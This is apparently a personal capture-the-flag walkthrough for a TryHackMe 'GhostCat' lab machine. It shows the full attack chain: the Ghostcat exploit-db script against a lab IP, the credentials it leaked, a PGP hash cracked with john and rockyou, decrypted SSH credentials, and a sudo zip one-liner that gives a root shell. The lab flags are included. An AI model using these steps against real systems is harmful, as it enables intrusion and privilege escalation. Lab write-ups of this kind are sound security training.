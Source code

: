 # Initial foothold

Use exploit:
https://www.exploit-db.com/exploits/48143

```bash
python2 48143.py 10.10.161.58
```
=> skyfuck:8730281lkjlkjdqlksalks

ssh login with creds

User flag:
```bash
cat /home/merlin/user.txt 
THM{GhostCat_1s_so_cr4sy}
```

# PrivEsc

Users:
- skyfuck
- merlin

Home directory files:
- `credential.pgp`
- `tryhackme.asc`

Decrypt `credential.pgp`:
```bash
gpg --import tryhackme.asc
gpg --output out.txt --decrypt credential.pgp
```
=> Need a passphrase

Path variable:
![[Pasted image 20240505181133.png]]

Cron jobs:
![[Pasted image 20240505181634.png]]

==DEAD END==

Download:
- `credential.pgp`
- `tryhackme.asc`

Run gpg2john on PGP symmetrically encrypted files (.gpg / .asc)
```bash
gpg2john tryhackme.asc > hash.txt
```

Crack hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20240505190935.png]]
=> alexandru

Use password to decrypt `credential.pgp`:
```bash
gpg --import tryhackme.asc
gpg --output out.txt --decrypt credential.pgp
```

=> `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

Login SSH as merlin.

Check sudo privs:
![[Pasted image 20240505191153.png]]

GTFObins 4 the win https://gtfobins.github.io/gtfobins/zip/#sudo:
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

Root Flag:
```bash
cat /root/root.txt
THM{Z1P_1S_FAKE}
```